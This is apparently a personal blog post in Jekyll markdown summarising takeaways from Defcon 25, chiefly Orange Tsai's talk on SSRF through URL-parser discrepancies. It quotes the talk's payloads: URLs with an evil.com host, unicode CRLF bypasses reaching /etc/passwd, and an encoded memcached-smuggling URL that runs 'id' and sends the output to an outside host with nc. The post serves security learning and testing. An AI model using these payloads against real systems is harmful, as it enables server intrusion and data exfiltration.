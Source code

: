 ```yaml
---
layout: post
title: Defcon 25 Takeaways
tags: 
- defcon
- dc25
- ssrf
---
```

 
This July I had the pleasure of attending Defcon anniversary 25th time and these are my take-aways from the conference. 

My goal when going to Defcon is to get inspired and motivated by the great work of others and to be able to incorporate new ideas and techniques into existing work. There is a myriad of great work being presented or taught at Defcon and it is overwhelming to take it all in. Especially when adding in the masses of people lining up and wandering around making a semi-introvert wanna crawl back into bed..


## Notable presentations:

### Orange Tsai - A new Era of Exploiting URL Parser in trending programming languages

This little gem presents techniques for finding and exploiting SSRF which are directly applicable in testing applications. Abusing the discrepancy between RFCs 2396 and 3986 in libraries Orange Tsai has found that many libraries are vulnerable to these tricks in different situations. This results in payloads like the following:

```
http://foo@evil.com:80@google.com/
http://hackallthethings.xyz/－＊/etc/passwd
http://hackallthethings.xyz/ＮＮ/etc/passwd


```

Note that the -* characters are actually unicode characters for `%0d` and `%0a` which break the NodeJS protection against CRLF injection. 
```
python
>>> print(u'\uff0d')
－
>>> print(u'\uff0a')
＊
>>> print(u'\uff2e')
Ｎ
```
List of [unicode characters here](https://en.wikipedia.org/wiki/List_of_Unicode_characters)

Another example that abuses decimal support in `gethostbyname()` (RFC1035):
```
>>> print host
\o\r\a\n\g\e.t\w
>>> socket.gethostbyname(host)
'50.116.8.239'
```
Orange also chained SSRF to exploit internal services via protocol smuggling and libraries vulnerable to CRLF injection.

Example:
```
http://0:8000/composer/send_email
?to=orange@chroot.org&url=http://127.0.0.1:11211/%0D%0Aset%20githubproductionsearch/queries/code_query%3A857be82362ba02525cef496458ffb09cf30f6256%3Av3%3Acount%200%2060%20150%0D%0A%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%07%3A%0E%40instanceo%3A%08ERB%07%3A%09%40srcI%22%1E%60id%20%7C%20nc%20orange.tw%2012345%60%06%3A%06ET%3A%0C%40linenoi%00%3A%0C%40method%3A%0Bresult
```

There are tons of examples in this talk and I have yet to dig through them all and test them, but it's definitely lots of stuff that will improve testing of SSRF and inspire new tricks and ideas. 
Also there are some good references in this talk:
[SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.xm4muaotv626)



### r




All content is available at the [Defcon Media Server](https://media.defcon.org/DEF%20CON%2025/). 



